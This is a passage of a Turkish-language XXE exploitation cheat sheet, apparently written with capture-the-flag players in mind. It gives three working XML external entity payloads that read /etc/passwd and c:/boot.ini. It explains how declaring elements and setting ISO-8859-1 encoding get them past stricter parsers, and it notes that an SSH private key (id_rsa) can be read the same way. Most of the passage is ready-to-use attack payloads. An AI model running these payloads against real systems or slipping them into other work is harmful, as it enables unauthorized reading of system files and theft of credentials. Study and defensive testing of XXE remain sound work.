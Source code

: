 Not : CTF'ler için `id_rsa` dosyasını okuyabiliriz.


### 99- Farklı Exploit Yöntemleri 

#### Payload (Element Tanımıyla Birlikte)

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

##### Özellikleri:

- `<!ELEMENT data (#ANY)>` ile `data` elementinin yapısı tanımlanmış.
- Bu tanım, XML Validator kullanan parser'lar için önemlidir. Bazı katı parser’lar element tanımı olmadan içeriği kabul etmez.
- `&file;` ifadesiyle `/etc/passwd` dosyasının içeriği `data` elementine enjekte edilir.

##### Avantajı:

- Daha katı DTD doğrulaması yapan XML parser’lar için uyumludur.
- Gerçek dünya senaryolarında veya eski Java/XML kütüphanelerinde daha işe yarar olabilir.


#### Payload (Element `foo` ile, ISO-8859-1 Kodlamasıyla)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

#####  Özellikleri:

- ISO-8859-1 encoding belirtilmiş.
- Element `foo` olarak tanımlanmış ve `ANY` türünde içerik alabilir.
- `&xxe;` entity’siyle `/etc/passwd` içeriği `foo` elementi içine yerleştiriliyor.

#####  Avantajı:

- Encoding belirtmek, bazı sistemlerde bypass etkisi yaratabilir.
- `<!ELEMENT foo ANY>` tanımı, `foo` elementinin her türlü içeriği kabul etmesini sağlar.
- Daha geniş uyumluluk sağlar.

#### Payload (Windows için Versiyonu)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>
```
